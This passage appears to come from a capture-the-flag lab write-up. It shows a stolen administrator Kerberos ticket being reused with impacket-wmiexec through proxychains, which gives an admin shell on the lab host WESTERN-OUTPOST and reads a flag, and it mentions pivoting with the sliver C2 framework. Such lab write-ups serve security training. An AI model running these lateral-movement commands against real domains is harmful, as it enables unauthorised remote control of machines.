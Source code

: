 ```
export KRB5CCNAME='administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache'
proxychains -q impacket-wmiexec -k -no-pass WESTERN-OUTPOST.async.empire                                                              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
Western-Outpost

C:\>whoami
async\administrator

C:\>type C:\users\administrator\desktop\flag3.txt
ccca789d08f5872e6c892d49714f3a54
```

Similarly, the next machine is only accessible via the `WESTERN-OUTPOST` machine, so you will need to obtain a `sliver` pivot session on `WESTERN-OUTPOST`. This will not be shown in the writeup, but [these docs](https://sliver.sh/docs?name=Pivots) should help.